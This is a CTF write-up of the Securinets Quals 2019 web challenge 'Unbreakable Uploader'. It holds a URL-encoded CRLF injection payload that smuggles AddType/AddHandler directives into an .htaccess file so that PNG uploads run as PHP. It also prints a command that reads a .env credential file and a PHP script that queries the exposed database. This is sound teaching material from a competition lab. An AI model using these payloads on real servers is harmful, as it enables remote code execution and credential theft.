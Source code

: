 ```yaml
---
layout: post
title: Unbreakable Uploader
category: Securinets Prequals 2019
---
```


Hello folks , this time we played Securinets CTF Quals 2019 for 24 hours

I will try to explain the latest Web Unbreakable Uploader challenge (2 solves)

Its amazing task where you need to chain multi bugs to get RCE 

OK lets start

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54940468-11109c00-4f2b-11e9-84ad-dcdd1e074393.png"></p>

We must exploit the unknown vulnerability (for the moment), access this database of challenges and find the hidden FLAG :D

Not bad at all guys, challenge accepted!

So as far as we can do :
```
  1-Upload any jpeg/png file
  2-Deny / Allow access to our uploads folder (every user has his own folder : https://web3.ctfsecurinets.com//md5($_SERVER['REMOTE_ADDR'])/md5(random_string).extension )
```
Example to deny access to our folder files

We just can input "all" or "0.0.0.0" and set Action to deny then ADD

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941766-eb38c680-4f2d-11e9-8563-4309418ce71d.png"></p>

We are trying to access our uploaded image, we can confirm that the Deny action is working properly

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941817-0dcadf80-4f2e-11e9-9df3-642738d113f5.png"></p>

First, when we look at this task and read the name of the challenge, we say it is a basic upload bypass.

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54940608-53d27400-4f2b-11e9-8c0e-931de5237264.png"></p>

After trying for more than 1h to bypass this upload , try normal stuff to break the upload check and upload php file or inject php in png IDAT chunks and other tricky way but we failed :(

Admin this moment be like

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941131-64cfb500-4f2c-11e9-8c6a-e4b4e55d8791.jpg"></p>

Ok here we start to take things more serious !

Lets begin again 

We have deny / allow process , what it can be ? 

```
1-Nginx module
2-.htaccess
3-or maybe something else!
```

So we said why not play with the configuration itself, if we could inject another configuration line on these files, we might be able to bypass upload.

```
Exp : 
AddType application/x-httpd-php .png
AddHandler application/x-httpd-php .png
the AddType in an .htaccess file can tell the server to run png extension as PHP
```

So we need to make CRLF injection to create new line , what we want to do :

```
allow from OUR_INPUT <-- inject input that create new line in config file
```

So basically if we can injection new lines we are done here :D

```
to inject this 
0.0.0.0 AddType application/x-httpd-php .png AddHandler application/x-httpd-php .png
```

To be this one 
```
allow from 0.0.0.0
AddType application/x-httpd-php .png
AddHandler application/x-httpd-php .png
```

we should encode our input and do CRLF injection using %0d%0a as simple way

```
We get this payload as input :
0.0.0.0%0d%0aAddType%20application%2Fx-httpd-php%20.png%0d%0aAddHandler%20application%2Fx-httpd-php%20.png

%0d%0a: CRLF
```

Inject php code inside png file and try to upload it .

Lets check before / after 

This one before inject our payload :  

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944722-71f0a200-4f34-11e9-8233-b0ab121b7b7c.png"></p>

And this after inject :

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944718-71580b80-4f34-11e9-9142-9f9edeb235d2.png"></p>

Ok here we are done , next please :D

Lets do some RCE Stuff

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944939-f4796180-4f34-11e9-9e94-b795c6a053eb.png"></p>

```
cat ../../../.env | less

# Configure your db driver and server_version in config/packages/doctrine.yaml
DATABASE_URL=mysql://symfony_admin:Securinets_dB_P455W0Rd_369@127.0.0.1:3306/symfony_task_3

```
<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945228-9c8f2a80-4f35-11e9-832a-cc35b8aa24b6.jpg"></p>


Trying to connect to database  "Connection error to database" , it was fake database name "symfony_task_3"

Admin again :D 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945550-6ef6b100-4f36-11e9-87e5-bc66deda8804.jpeg"></p>

Lets just dump user privileges database XD

Find database name : big_database 

So lets find flag and win :)

```
<?php

$link = mysqli_connect("localhost", "symfony_admin", "Securinets_dB_P455W0Rd_369", "big_database");
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$r = mysqli_query($link,"SELECT * FROM user_details WHERE username like '%ecurinets%' or first_name like '%ecurinets%' or last_name like '%ecurinets%' or gender like '%ecurinets%' or password like '%ecurinets%'");
echo mysqli_error($link);
var_dump(mysqli_fetch_all($r));
?>
```

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54946477-6bfcc000-4f38-11e9-9853-f2c1ee85efbb.png"></p>

And we are done FLAG : Securinets{T00_MuCh_W0rk}

Thank you for reading this write up , well done for my team @DefConUA 1st place with 2 remaining tasks :)
And Thanks to the creator's team for this CTF, especially the Emperor, for this amazing task :)


<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945895-31465800-4f37-11e9-80cc-bbc98fd96e5f.png"></p>
